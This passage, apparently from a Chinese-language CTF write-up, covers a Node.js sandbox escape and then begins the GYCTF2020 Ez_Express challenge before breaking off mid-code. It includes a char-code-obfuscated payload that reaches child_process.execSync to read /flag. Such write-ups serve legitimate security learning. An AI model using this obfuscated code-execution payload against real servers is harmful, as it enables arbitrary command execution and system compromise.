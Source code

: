 可以利用字符串拼接出string：

```javascript
> Math+1
'[object Math]1'
```

箭头函数表示自调用`(()=>())()`，例子：

```javascript
let a = function () {
    console.log("123123");
};

a();

let b = (x) => {
    console.log(x);
};
b(123);

let c = (x) => console.log(x);
c(123);
```

最终payload：

```javascript
(Math=>
    (Math=Math.constructor,
            Math.constructor(
                Math.fromCharCode(114,101,116,117,114,110,32,112,114,111,
                    99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,
                    46,114,101,113,117,105,114,101,40,39,99,104,105,108,100,
                    95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,83,
                    121,110,99,40,39,99,97,116,32,47,102,108,97,103,39,41))()
    )
)(Math+1)
```

## [GYCTF2020]Ez_Express

`www.zip` 下载，在route/index.js，有merge和clone，那就是了，

```javascript
router.post('/action', function(req, res) {
    if (req.session.user.user != "ADMIN") { res.end("<script>alert('ADMIN is asked');history.go(-1);</script>") }
    req.session.user.data = clone(req.body);
    res.end("<script>alert('success');history.go(-1);</script>");
});
```

需要是admin才能clone，login：

```javascript
function safeKeyword(keyword) {
    if (keyword.match(/(admin)/is)) {
        return keyword
    }

    return undefined
}
router.post('/login', function(req, res) {
    if (req.body.Submit == "register") {
        if (safeKeyword(req.body.userid)) {
            res.end("<script>alert('forbid word');history.go(-1);</script>")
        }
        req.session.user = {
```